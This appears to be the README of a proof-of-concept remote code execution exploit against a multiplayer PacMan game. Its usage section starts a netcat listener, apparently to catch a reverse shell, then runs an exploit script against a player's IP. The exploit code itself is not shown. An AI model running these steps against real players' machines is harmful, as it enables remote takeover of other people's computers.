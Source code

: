 # rcepm

RCE exploit PoC for [multi-player PacMan]().


## Usage

```sh
$ nc -lv 6000
```

```sh
$ python3 rce.py [your ip] [player ip] [password]'
```
